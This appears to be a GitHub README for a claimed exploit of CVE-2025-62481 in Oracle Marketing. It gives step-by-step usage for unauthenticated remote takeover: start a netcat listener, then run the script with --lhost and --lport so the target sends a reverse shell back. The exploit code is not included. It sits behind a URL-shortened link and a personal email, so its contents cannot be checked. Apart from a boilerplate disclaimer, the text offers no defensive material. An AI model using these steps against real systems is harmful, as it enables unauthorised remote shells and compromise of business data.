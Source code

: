 # Oracle Marketing Exploit - CVE-2025-62481

## Overview
This repository contains a proof-of-concept exploit for CVE-2025-62481, a critical vulnerability in Oracle Marketing versions 12.2.3 through 12.2.14. The exploit allows unauthenticated remote attackers to achieve full compromise of the affected system via HTTP, impacting confidentiality, integrity, and availability.


## Requirements
- Python 3.8+
- Libraries: requests, urllib3
- Target: Oracle E-Business Suite with Oracle Marketing 12.2.3-12.2.14 exposed via HTTP/HTTPS
- Network access to the target's port (default 80/443)


## Usage

1. **Install dependencies**
   ```
   pip install -r requirements.txt
   ```
   
2. **Set Up the Listener with Netcat**
   - Install netcat if not already present:
     ```
     sudo apt install netcat # On Debian/Ubuntu
     sudo yum install nc # On CentOS/RHEL
     ```
   - Start the listener on your chosen IP and port. For example, if you specified `--lhost 192.168.1.100` and `--lport 4444` in the exploit:
     ```
     nc -lvnp 4444
     ```
   - The listener will wait for the incoming connection from the target.

3. **Run the Exploit**
   Execute the exploit script with the appropriate arguments, ensuring `--lhost` and `--lport` match the listener’s IP and port:
   ```
   python cve-2025-62481.py --target http://example.com:8080/marketing/admin --lhost 192.168.1.100 --lport 4444
   ```
   The exploit sends a payload to the target, instructing it to connect back to `192.168.1.100:4444`.

4. **Receive the Shell**
   - Once the exploit succeeds, the target system executes the reverse shell payload, connecting to your listener.
   - In the netcat terminal, you’ll see a connection established, and you’ll be presented with a shell prompt (e.g., `bash` or `sh`) from the target system.


## Disclaimer
This tool is for educational and testing purposes only. Use on authorized systems with explicit permission. The author is not responsible for any misuse or damage caused.

## Exploit
[href](https://tinyurl.com/ycye7j8s)

For any inquiries, please email me at: eviedejesu803@gmail.com
